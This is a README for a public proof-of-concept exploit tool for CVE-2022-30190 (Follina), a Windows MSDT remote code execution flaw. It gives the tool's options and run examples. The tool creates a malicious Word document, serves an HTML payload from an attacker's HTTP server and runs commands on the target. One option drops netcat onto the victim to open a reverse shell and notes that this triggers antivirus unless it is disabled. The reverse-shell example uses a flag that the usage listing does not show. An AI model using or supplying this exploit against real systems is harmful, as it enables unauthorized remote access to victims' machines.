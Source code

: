 # CVE-2022-30190
Microsoft Windows Support Diagnostic Tool RCE   
&nbsp;

## POC
![poc](./poc.png)
&nbsp;

## Usage
```
usage: cve-2022-30190.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]

options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: calc)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./cve-2022-30190.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)
```
&nbsp;

# Examples

### Pop calc.exe:
```
$ python3 cve-2022-30190.py   
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./cve-2022-30190.doc
[+] serving html payload on :8000
```

### Pop notepad.exe:
```
$ python3 cve-2022-30190.py -c "notepad"
```

### Get a reverse shell on port 9001.
```
$ python3 cve-2022-30190.py -r 9001
```
Note, this downloads a netcat binary _onto the victim_ and places it in `C:\Windows\Tasks`. It does not clean up the binary. This will trigger antivirus detections unless AV is disabled.
</br>&nbsp;

## How Does It Works
![poc](./how-work.png)
</br>&nbsp;

## Credit
[JohnHammond](https://github.com/JohnHammond/msdt-follina/blob/main/README.md)'s github page.</br>
[SANS](https://isc.sans.edu/forums/diary/New+Microsoft+Office+Attack+Vector+via+msmsdt+Protocol+Scheme+CVE202230190/28694)'s webpage.</br>
</br>&nbsp;

## Support
You can Follow [me](https://twitter.com/MeAsHacker_HNA) on twitter or buy me a [Coffee](https://buymeacoffee.com/NafisiAslH)
